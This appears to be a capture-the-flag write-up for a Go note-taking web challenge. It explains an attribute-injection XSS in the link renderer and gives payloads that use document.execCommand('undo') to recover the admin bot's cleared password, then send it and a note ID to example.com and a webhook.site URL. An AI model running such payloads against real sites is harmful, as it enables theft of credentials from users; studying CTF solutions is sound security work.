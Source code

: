 + aim is to capture the flags written in the notes posted by the admin bot.
+ Lets break down the code:
```
var notes map[string]Note = map[string]Note{}
var masterKey string

var linkPattern = regexp.MustCompile(`\[([0-9a-f]{8}-[0-9a-f]{4}-4[0-9a-f]{3}-[0-9a-f]{4}-[0-9a-f]{12})\]`)

// replace [(note ID)] to links
func replaceLinks(note string) string {
	return linkPattern.ReplaceAllStringFunc(note, func(s string) string {
		id := strings.Trim(s, "[]")

		note, ok := notes[id]
		if !ok {
			return s
		}

		title := html.EscapeString(note.Title)
		return fmt.Sprintf(
			"<a href=/note/%s title=%s>%s</a>", id, title, title,
		)
	})
}

// escape note to prevent XSS first, then replace newlines to <br> and render links
func renderNote(note string) string {
	note = html.EscapeString(note)
	note = strings.ReplaceAll(note, "\n", "<br>")
	note = replaceLinks(note)
	return note
}
```
`var linkPattern = regexp.MustCompile(`\[([0-9a-f]{8}-[0-9a-f]{4}-4[0-9a-f]{3}-[0-9a-f]{4}-[0-9a-f]{12})\]`)` defines a regular expression pattern using the regexp.MustCompile() function. The pattern is intended to match a specific format: [...] where the content inside the brackets matches a UUID format 
-  It uses the linkPattern regular expression to find matches in the input note string and replaces those matches with HTML links and  and creating an HTML link with the note's title as the link text.
-  html.EscapeString() function is used to escape any special characters in the title to prevent potential cross-site scripting (XSS) vulnerabilities

In bot's index.js,
```
const len = (await page.$eval('input', el => el.value)).length;
            await page.focus('input');
            for (let i = 0; i < len; i++) {
                await page.keyboard.press('Backspace');
            }
```
The purpose of this code is to delete the content of an input field on the web page, specifically for removing a password value that might have been autofilled or prepopulated by the browser.
page.keyboard.press() method to simulate pressing the 'Backspace' key as many times as the length of the input value (len). This effectively deletes the entire content of the input field character by character.
+ There is an API document.execCommand that you can do some special commands on a browser, and looking through this document, you could find undo command, which enables you to recover the text deleted from input.
  + `< a  href = /note/xxx-xxx-xxx  title = x  autofocus  onfocus = console.log(location) > x autofocus onfocus=console.log(location) </ a >`
    XSS Possible and a tag created
+ Finally, by letting admin to execute this code using XSS , you could get the ID of admin's note and the master key.
```
const h = localStorage.getItem( 'neko-note-history' );
 const id = JSON.parse(h) [ 0 ] .id;
 document .execCommand( 'undo' );
 const pw = document .querySelector( 'input' ).value;
navigator.sendBeacon( `https://example.com/?id= ${id} &pw= ${pw} ` );
```
Payload: xxxxxxxxxxxxxxxxxxxx onmouseover=document.execCommand(`undo`);pwd=document.querySelector(`input`).value;id=JSON.parse(localStorage.getItem(`neko-note-history`))[0].id;location=`https://webhook.site/9a5f00d1-194c-46af-b09a-b488a79d2787?id=`+id+`&pwd=`+pwd



Original Writeup:


https://gist.github.com/lebr0nli/4a6a53e6825d83cfe74aa8eb370895f0
